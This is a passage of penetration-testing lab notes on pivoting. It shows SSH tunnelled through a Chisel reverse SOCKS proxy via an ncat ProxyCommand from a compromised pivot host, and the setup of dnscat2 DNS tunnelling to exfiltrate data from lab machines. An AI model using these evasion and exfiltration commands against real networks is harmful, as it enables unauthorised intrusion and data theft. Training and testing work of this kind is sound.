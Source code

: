 ```bash
sudo apt install ncat
```

Now we'll pass an Ncat command to ProxyCommand. The command we construct tells Ncat to use the socks5 protocol and the proxy socket at 127.0.0.1:1080. The %h and %p tokens represent the SSH command host and port values, which SSH will fill in before running the command.

```bash
kali@kali:~$ ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215
...
database_admin@pgbackup1:~$
```

We gained access to the SSH server, through our Chisel reverse SOCKS proxy, tunneling traffic through a reverse HTTP tunnel.

We created a reverse tunnel using Chisel, and then used this tunnel to log in to an SSH server on PGDATABASE01 within the internal network. We did this with only HTTP-formatted traffic to and from the compromised CONFLUENCE01 pivot server.

**If you wanna run commands through the proxy, simply modify your proxychains conf file to use socks5 on 127.0.0.1 on port 1080 and do the thing.**

## DNS Tunneling

DNS is one of the foundational Internet protocols and has been abused by attackers for various nefarious purposes. For example, it can serve as a mechanism to tunnel data indirectly in and out of restrictive network environments. To understand exactly how this works, let's present a simplified "crash course" in DNS. We will then learn how to perform DNS tunneling with a tool called dnscat2.

### DNS Tunneling with dnscat2

We can use dnscat2 to exfiltrate data with DNS subdomain queries and infiltrate data with TXT (and other) records.

A dnscat2 server runs on an authoritative name server for a particular domain, and clients (which are configured to make queries to that domain) are run on compromised machines.

Let's try out dnscat2. We'll inspect traffic from FELINEAUTHORITY with tcpdump, filtering specifically on UDP port 53 (udp port 53).

```bash
kali@felineauthority:~$ sudo tcpdump -i ens192 udp port 53
```

We'll kill our existing Dnsmasq process with a Ctrl+c and run dnscat2-server instead, passing the feline.corp domain as the only argument.

```bash
kali@felineauthority:~$ dnscat2-server feline.corp
```

This indicates that the dnscat2 server is listening on all interfaces on UDP/53.

Now that our server is set up, we'll move to PGDATABASE01 to run the dnscat2 client binary. The binary is already on the server for this exercise. However, we could have transferred the binary from our Kali machine to PGDATABASE01 via our SSH connection using SCP.
